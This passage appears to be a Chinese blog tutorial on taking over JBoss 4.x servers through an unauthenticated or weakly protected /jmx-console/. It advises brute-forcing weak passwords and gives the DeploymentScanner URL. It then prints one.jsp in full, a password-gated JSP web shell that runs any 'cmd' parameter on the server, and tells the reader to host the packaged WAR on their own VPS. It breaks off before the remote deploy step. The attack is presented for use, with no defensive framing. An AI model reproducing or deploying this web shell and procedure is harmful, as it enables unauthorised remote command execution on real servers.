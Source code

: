 

Jboxx4.x /jmx-console/ 后台存在未授权访问，进入后台后，可直接部署 war 包Getshell。若需登录，可以尝试爆破弱口令登录。



直接访问: http://xx.xx.xx.xx:8000/jmx-console/   或者点击图片处



![](https://img-blog.csdnimg.cn/20200109180904819.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



进入后台后，点击 Jboss.deployment 进入应用部署页面,也可以直接输入URL进入



```
http://xx.xx.xx.xx:8080/jmx-console/HtmlAdaptor?action=inspectMBean&name=jboss.deployment:type=DeploymentScanner,flavor=URL
```




![](https://img-blog.csdnimg.cn/20200109180948275.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



**生成war包**



one.jsp的内容如下



```
<%      
    if("123".equals(request.getParameter("pwd"))){      
        java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("cmd")).getInputStream();      
        int a = -1;                
        byte[] b = new byte[1024];                
        out.print("<pre>");                
        while((a=in.read(b))!=-1){      
            out.println(new String(b));                
        }      1
        out.print("</pre>");      1
    }       1
%>
```




![](https://img-blog.csdnimg.cn/20200109183214770.png)



将one.war放在我们的VPS上



![](https://img-blog.csdnimg.cn/20200109183310487.png)
